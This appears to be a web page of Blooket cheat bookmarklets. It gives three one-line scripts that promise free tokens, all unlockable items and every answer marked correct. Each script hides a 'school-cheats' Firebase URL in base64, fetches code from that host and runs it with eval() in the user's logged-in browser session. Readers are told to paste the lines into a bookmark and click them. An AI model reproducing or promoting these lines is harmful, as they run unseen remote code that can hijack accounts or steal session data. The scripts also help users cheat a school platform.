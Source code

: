 # Blooket  
infinatetokens.js:

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxBZGRUb2tlbnMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 500 daily tokens and 300XP.

.
..
Allblooksingame.js

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxHZXRBbGxCbG9va3MuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for all blooks in game

.
..
Everyawnsercorrect.js

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxFdmVyeUFuc3dlckNvcnJlY3QuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for all awnsers correct on any game

